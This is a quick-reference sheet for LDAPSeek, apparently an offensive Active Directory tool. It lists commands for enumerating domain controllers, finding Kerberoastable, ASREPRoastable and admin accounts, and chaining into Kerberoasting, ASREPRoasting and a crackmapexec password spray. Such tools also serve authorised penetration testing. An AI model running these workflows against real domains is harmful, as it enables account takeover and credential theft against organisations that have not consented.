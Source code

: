 # LDAPSeek Quick Reference

## Basic Commands

```bash
# Simple scan
./ldapseek.py dclist.txt

# With credentials
./ldapseek.py dclist.txt -u username -p password

# Full enumeration
./ldapseek.py dclist.txt --full -u user -p pass

# Find Kerberoastable accounts
./ldapseek.py dclist.txt --spns -u user -p pass

# Find ASREPRoastable accounts
./ldapseek.py dclist.txt --asrep

# Find admin accounts
./ldapseek.py dclist.txt --admins -u user -p pass

# LDAPS (encrypted)
./ldapseek.py dclist.txt --ldaps -u user -p pass

# JSON output
./ldapseek.py dclist.txt --json -u user -p pass
```

## Common Workflows

```bash
# Full AD attack surface mapping
../dcseek/dcseek.py iplist.txt
./ldapseek.py dclist.txt --full -u user -p pass

# Kerberoasting workflow
./ldapseek.py dclist.txt --spns -u user -p pass
../kerbseek/kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01.corp.local

# ASREPRoasting workflow (no creds needed!)
./ldapseek.py dclist.txt --asrep
../kerbseek/kerbseek.py --asreproast --users asrep_users.txt -d CORP --dc dc01.corp.local

# Password spray preparation
./ldapseek.py dclist.txt --users -u user -p pass
crackmapexec smb iplist.txt -u users.txt -p 'Password123!'
```
